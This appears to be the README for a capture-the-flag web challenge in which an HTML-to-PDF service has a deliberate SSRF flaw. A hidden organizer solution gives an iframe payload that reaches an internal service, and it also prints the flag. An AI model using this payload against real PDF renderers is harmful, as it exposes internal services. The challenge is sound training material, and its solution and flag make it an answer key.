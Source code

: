 # Space PDF Generator - CTF Challenge

## Challenge Description

Welcome, space cadet! The Galactic PDF Conversion Service allows astronauts to convert HTML documents to PDF format for offline viewing during long space missions. However, our intelligence suggests that the service might have a security vulnerability that could expose confidential mission data. Your task is to investigate the service and find the hidden flag.

**Difficulty**: Medium  
**Category**: Web, SSRF  
**Flag Format**: ctf{...}

## Setup Instructions

1. Install dependencies:
```bash
npm install
```

2. Start the service:
```bash
npm start
```

3. Visit http://localhost:3000 in your browser to access the application.

## Challenge Hints

1. The service converts HTML to PDF. What HTML elements can make external requests?
2. The flag is located on an internal service that should not be publicly accessible.
3. Think about how the PDF generator might process certain tags that can load external content.

## Solution (For CTF Organizers Only)

<details>
<summary>Click to reveal solution</summary>

The application is vulnerable to Server-Side Request Forgery (SSRF) through the HTML-to-PDF conversion process. The puppeteer library used to generate PDFs will process and load content from iframe tags.

To solve the challenge:

1. Submit HTML with an iframe pointing to the internal service:
```html
<html>
<body>
    <h1>SSRF Exploit</h1>
    <iframe src="http://127.0.0.1:8081/flag" width="100%" height="500px"></iframe>
</body>
</html>
```

2. The generated PDF will include the content from the internal service, revealing the flag: `ctf{SSRF_PDF_1fr4m3_vuln3r4b1l1ty}`

</details>

## Credits

Created for the CCOE CTF Challenge 